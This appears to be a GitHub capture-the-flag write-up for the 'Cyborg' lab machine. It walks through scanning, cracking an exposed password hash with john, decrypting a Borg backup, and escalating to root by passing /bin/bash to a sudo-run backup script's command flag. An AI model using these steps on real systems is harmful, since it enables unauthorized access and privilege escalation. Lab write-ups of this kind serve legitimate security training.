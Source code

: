 # Cyborg

### Cyborg
Nmap scan shows ports 22 and 80 open.
Port 80 is a default apache webserver. Gobuster shows directories `/admin` and `/etc`.<br />
From `/etc` I found the following credentials:`music_archive:$apr1.Q.1m$F0qqPwHSOG50URuOVQTTn.` and also the following squid config file:
    
    auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
    auth_param basic children 5
    auth_param basic realm Squid Basic Authentication
    auth_param basic credentialsttl 2 hours
    acl auth_users proxy_auth REQUIRED
    http_access allow auth_users

From the admin portal I download a file called `archive.tar`. This is a Borg backup. To instal borg on kali, run `apt install borgbackup`.<br />
I need to crack the password in order to decrypt this backup. I put the hash inside a file `hash.txt` and run `john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`. This finds the password.<br />
With this password, I can find the name of the original archive:<br />
![image](https://github.com/user-attachments/assets/6fe4e8c3-ed4f-4c90-8071-31c582ca34d9)<br />
And can decrypt the data with `borg extract home/field/dev/final_archive::music_archive`.<br />
So now I have a decrypted duplicate of the backup:<br />
![image](https://github.com/user-attachments/assets/af0d0ec4-9f99-45a7-9ac6-1a1be98d1d09)<br />
Inside `/alex/Documents` there's a note containing the ssh password for alex, this gives me the user flag.<br />
Now for privesc, if I run `sudo -l`, I get:<br />
![image](https://github.com/user-attachments/assets/81ba4fb5-01ac-4b29-ba88-9181944dda2a)<br />
This is the code of this file:

      #!/bin/bash
      
      sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt
      
      
      input="/etc/mp3backups/backed_up_files.txt"
      #while IFS= read -r line
      #do
        #a="/etc/mp3backups/backed_up_files.txt"
      #  b=$(basename $input)
        #echo
      #  echo "$line"
      #done < "$input"
      
      while getopts c: flag
      do
              case "${flag}" in 
                      c) command=${OPTARG};;
              esac
      done
      
      
      
      backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"
      
      # Where to backup to.
      dest="/etc/mp3backups/"
      
      # Create archive filename.
      hostname=$(hostname -s)
      archive_file="$hostname-scheduled.tgz"
      
      # Print start status message.
      echo "Backing up $backup_files to $dest/$archive_file"
      
      echo
      
      # Backup the files using tar.
      tar czf $dest/$archive_file $backup_files
      
      # Print end status message.
      echo
      echo "Backup finished"
      
      cmd=$($command)
      echo $cmd


I want to focus on this part:

      SNIP...
      while getopts c: flag
      do
              case "${flag}" in 
                      c) command=${OPTARG};;
              esac
      done
      
      SNIP....
      
      cmd=$($command)
      echo $cmd
This code allows me to run any command by just using the `-c` flag. <br />
To exploit this, just run `sudo /etc/mp3backups/backup.sh -c /bin/bash` and become root.



